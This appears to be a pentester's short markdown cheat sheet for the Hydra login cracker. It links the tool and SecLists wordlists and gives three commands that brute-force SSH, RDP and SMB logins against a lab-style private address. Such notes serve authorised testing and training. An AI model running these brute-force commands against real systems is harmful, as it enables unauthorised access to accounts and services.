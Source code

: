 # Overview



# Resources

https://github.com/vanhauser-thc/thc-hydra
https://github.com/thex150/Seclists
https://github.com/danielmiessler/SecLists

# Usage

Bruteforce SSH
```bash
hydra -L user.list -P password.list ssh://10.129.42.197
```

Bruteforce RDP
```bash
hydra -L user.list -P password.list rdp://10.129.42.197
```

Bruteforce SMB
```bash
hydra -L user.list -P password.list smb://10.129.42.197
```
